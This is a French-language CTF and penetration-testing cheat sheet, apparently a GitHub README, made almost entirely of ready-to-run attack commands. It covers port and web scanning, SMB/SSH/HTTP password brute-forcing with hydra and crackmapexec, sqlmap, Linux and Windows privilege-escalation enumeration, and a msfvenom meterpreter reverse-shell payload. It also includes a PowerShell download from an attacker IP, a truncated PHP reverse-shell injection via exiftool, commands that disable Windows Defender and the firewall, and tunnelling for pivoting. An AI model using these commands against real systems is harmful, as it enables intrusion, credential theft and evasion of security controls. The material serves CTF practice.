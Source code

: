 # CTF-Cheat-Sheet


Reverse shell :
https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

Scripts d’énumération automatique pour privesc :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  

nmap (
-A : détection du système et des versions
-sP : simple ping scan
-sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
-sN/sF/sX: Scans TCP Null, FIN et Xmas
-sU: Scan UDP
-T4 : Définit une temporisation[0-5]
)
nmap -A -T4 -sV 10.10.10.157

nmap --script "SCRIPT" -p "PORT" "IPADDRESS"
nmap –script smb-vuln* -p 139,445 10.10.10.134

--WEB
nikto -h "URL" -p "PORTS"
nikto -h 192.168.0.1 -p 80,443

gobuster --url "IP ADDRESS" dir --wordlist "WORDLIST" -x "EXTENSION"
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //"IPADDRESS"/ -U ""
Enumération des répertoires partagés accessibles en anonymous

rpcclient -U "" -N 10.10.10.180/
Bruteforcer les RID des comptes Windows

crackmapexec smb DC.ustoun.local -u 'SVC-Kerb' -p /root/rockyou.txt
Bruteforce SMB avec crackmapexec

enum4linux -a 10.10.10.180
Enumération SMB, RPC & co (WINDOWS)


dirb "url" "wordlist"
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
-a "agent" -> spécifie un user-agent
-R -> récursivité interactive
-o output.txt -> redirige l'output
wfuzz --hh="PARAM_SIZE" -w "WORDLIST" "URL".php?"PARAM_NAME"=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test


Exploitation & Elévation de privilèges [LINUX] :
python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet

searchsploit -t "INTITLE" "KEYWORDS" -w
searchsploit windows local smb

sudo -l
-> liste les commandes autorisées pour l’utilisateur courant

find / -type d -writable 2> /dev/null
-> Liste les répertoires accessibles en écriture

find /* -user root -perm -4000 -print 2>/dev/null
-> Liste les binaires exécutables par l’utilisateur courant

find / -type f -perm /6000 -ls 2>/dev/null
-> Liste les fichiers setuid/setgid sur le système

find / -iname "mon_fichier" -print 2>/dev/null
-> Trouver un fichier précis sur le système

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
-> Trouver des clés RSA ou des autorisations de connexion SSH

grep -iR "passw"
-> Rechercher du texte dans des fichiers d’une arborescence

binwalk socute.jpg
-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)

exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>' "IMAGE"
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png


Exploitation & Elévation de privilèges [WINDOWS] :
gem install evil-winrm
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'
Se connecter via le port winrm

https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
Tester les privilèges de l’utilisateur

whoami /priv
whoami /groups
Liste des privilèges : https://github.com/gtworek/Priv2Admin
Lister les privilèges de l’utilisateur courant

Get-Services
Lister les services (Pour vérifier les unquoted services)

Set-ExecutionPolicy Unrestricted
Retirer les restrictions d’exécution de scripts

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\toto\Desktop\wget.exe')"
Télécharger un fichier depuis un serveur web

msfvenom -p windows/meterpreter/reverse_tcp lhost="LOCALIP" lport="LOCALPORT" -f "FORMAT" > "OUTPUTFILE"
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2014-06-06-mssb.xlsx -i systeminfo.txt
Vérifier les exploits disponibles en fonction du systeminfo de la victime

https://github.com/PowerShellMafia/PowerSploit
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
Lancer un PowerShell sans restrictions, charger PowerUp et lancer le check complet

powershell -c "Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0"
powershell -c "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'"
powershell -c "Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False"
netsh advfirewall set allprofiles state off
Activer le RDP et désactiver le firewall

Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
Désactiver Windows Defender en Powershell


Pivoting :
Sous Windows :
KALI  WINDOWS1   WINDOWS2
10.10.14.33  172.16.1.1  172.16.2.1
Ici Kali peut joindre WINDOWS1 mais pas WINDOWS2
Seul WINDOWS1 peut joindre WINDOWS2

sur le serveur (kali) :
./chisel server --port 9000 --host 0.0.0.0 --reverse

sur le client (WINDOWS1 172.16.1.1) :
.\chisel.exe client 10.10.14.33:9000 R:1081:socks
On monte un tunnel chisel et on affecte un socket sur un port du serveur Kali

nano /etc/proxychains.conf
 socks5 127.0.0.1 1081
proxychains -q curl http://172.16.2.1
Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre WINDOWS2

Sous Linux :
KALI  LINUX1  LINUX2
10.10.14.33  10.10.10.1  10.10.12.1
Ici Kali peut joindre LINUX1 mais pas LINUX2
Seul LINUXS1 peut joindre LINUX2

Sur le serveur Kali :
ssh -ND 127.0.0.1:12000 root@10.10.10.1 -i id_rsa -v
On monte une connexion ssh depuis Kali sur LINUX1 avec un socket sur le port 12000

nano /etc/proxychains.conf
 socks5 127.0.0.1 12000
proxychains -q curl http://10.10.12.1
Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre LINUX2


Injection SQL :
sqlmap -u "URL" (--dbs / --tables -D "DATABASE" / --columns -D "DATABASE" -T "TABLENAME")
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES


Bruteforce :
Cracker un hash SHA 512 avec un salage
Mettre dans un fichier le hash et la chaine de salage séparés par un caractère "$" puis :
john sha512.hash -format='dynamic=sha512($p.$s)' --wordlist=rockyou.txt

Cracker un zip chiffré avec une liste de mots de passe
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip

crunch "MIN" "MAX" "CONTENT"
crunch 4 15 « abcdefghijklmnopqrstuvwxyz »

crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)

hydra -l "USER" -P "WORDLIST" "IP ADDRESS" "METHOD" "URL"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l "LOGIN" -P "WORDLIST" "URL" "METHOD""PAGE":"ARGUMENT"=^"VALUE"^:"INCORRECT STRING"" -w "THREADS" -s "PORT"
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692

john --incremental "HASHFILE"
Pour bruteforcer de façon incrémentale

john "HASHFILE" --wordlist=/usr/share/wordlists/rockyou.txt
Pour bruteforcer avec un dictionnaire

Script de bruteforce anti-CSRF :
https://github.com/J3wker/anti-CSRF_Token-Bruteforce
